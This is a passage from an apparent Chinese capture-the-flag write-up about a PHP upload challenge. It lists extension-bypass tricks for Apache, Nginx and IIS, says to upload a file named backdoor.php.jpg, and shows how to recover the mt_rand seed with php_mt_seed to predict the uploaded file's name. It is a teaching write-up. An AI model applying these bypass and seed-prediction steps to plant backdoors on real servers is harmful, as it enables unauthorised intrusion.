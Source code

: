 ## 0x03

首先我们需要绕过文件类型限制，`in_array($extension,$type)`表示我们得上传后缀是gif，jpg或png的文件，这里复习一下上传绕过的普通套路：

1. Apache

   1.php.jpg #从apache从右往左，直到可解析的文件后缀

2. Nginx

   1.php%001.jpg #00处截断

3. IIS

   a.asp;jpg	

   a.php. 和a.php[空格] #会自动去掉空格

注意到这里用的是Apache容器，那我们就上传个backdoor.php.jpg文件就好了

![1537706584108](writeup.assets/1537706584108.png)

看到这里我们已经上传成功了

## 0x04

接下来我们需要确定上传后的文件名，再次查看源码，点击上传后，程序首先使用`mt_srand((time() % rand(1,100000)%rand(1000,9000)));`设置了随机数种子，并且打印第一个随机数`echo mt_rand();`；而上传文件名就是第二个随机数+原本文件名`$filename = mt_rand().''.$FILES'file';`，这样的伪随机数是存在问题的，我们可以根据第一个随机数暴力破解出随机数种子（注意到这里的种子∈[1000,9000]），然后再计算出第二个随机数。

以第3步的上传结果为例，使用php_mt_seed.exe计算出随机数种子为5240.

```bash
λ php_mt_seed.exe 823735129
Found 0, trying 0 - 33554431, speed 0 seeds per second
seed = 5240
Found 1, trying 67108864 - 100663295, speed 71014670 seeds per second
```

接着推测出第二个随机数：

```bash
λ cat test.php
<?php
mt_srand(5240);
echo mt_rand();
echo "\n";
echo mt_rand();
?>
λ php test.php
823735129
288373614
```
